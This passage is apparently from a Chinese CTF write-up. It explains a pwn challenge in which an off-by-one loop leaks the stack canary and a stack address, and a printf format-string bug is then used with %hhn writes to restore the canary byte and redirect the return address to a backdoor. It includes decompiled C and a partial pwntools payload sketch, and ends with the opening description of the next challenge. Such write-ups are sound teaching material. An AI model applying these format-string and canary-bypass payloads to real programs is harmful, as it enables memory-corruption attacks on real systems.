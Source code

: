 ```
```
###### &emsp;&emsp;&emsp;Hint+：Canary == n.金丝雀; 其次Canary可能发音与Candy有部分相近吧（
##### &emsp;&emsp;&emsp;所以这一题还是想办法绕过Canary保护，然后返回到后门函数。实际上这一题比上一题上题上得早一些。<br>&emsp;&emsp;&emsp;
```c
unsigned __int64 sugar_salt()
{
  int i; // [rsp+8h] [rbp-38h]
  int v2; // [rsp+Ch] [rbp-34h]
  char s[40]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 v4; // [rsp+38h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  strcpy(s, "We don't need a canaria. I'll kill you!");
  v2 = strlen(s);
  for ( i = v2; i <= 40; ++i ) // <---------- 漏洞
    s[i] = v2 + 1;
  printf("Satou:%s", s); // <---------- leak canary and stack
  read(0, s, 0x28uLL); 
  printf("Shio:");
  printf(s); // <-------- 格式化字符串漏洞
  return v4 - __readfsqword(0x28u);
}
```
##### &emsp;&emsp;&emsp;漏洞在```for ( i = v2; i <= 40; ++i )```，也是c语言新手常犯的错误，下标是0开始的，所以这里正好 ***offset-by-one*** , 把Canary最低位覆盖，之后又自带一个输出就把Canary泄露了。<br>&emsp;&emsp;&emsp;可以看到第二遍输入没有越界写，但是有格式化字符串漏洞。所以这个格式化字符串漏洞做两件事，一是修复Canary最低位为```'\x00'```，二是改返回地址。<br>&emsp;&emsp;&emsp;然后一件事，由于我们要改栈上的内容，于是需要指向栈某些位置的指针，进而需要泄露栈地址，幸好栈地址也和Canary一起泄露了。<br>&emsp;&emsp;&emsp;大致的payload如下，使用```%hhn```而不是```%n```修改单个字节。
```python
canary = u64(io.recv(8))|0xff - 0xff
last_rbp = u64(io.recv(6).ljust(8, b'\x00')) # 栈地址的一般高两位是空的
rbp = last_rbp - offset # offset 是定值

payload = b'%{argv1_offset}$hhn' + b'%{amount}c' + b'%{argv2_offset}$hhn'
payload += b'a'*???? # 确保接下来的两个指针参数按八位对齐。
payload += p64(rbp - 0x8) + p64(rbp + 0x8)
```
###### &emsp;&emsp;&emsp;然后这个```backdoor()```也是有栈平衡的问题，解决方式和上一题一致。

### 🤔 s代表着...(🤖Mid)
```
⚠ 题目描述
塞克考姆城的神奇旗帜
其真名会随时间而变化

据说只有呼唤出正确的名号
才能被举起挥舞

如坚实的巨树，屹立不倒
如敏捷的幻象，若即若离
如神圣的光芒，指引胜利

筛尔寇德？挥舞旗帜的第一勇士。

💡 Hint
flag文件名并非"./flag"、"./flag.txt"等
注意沙箱中被允许的系统调用
💻 题目附件
```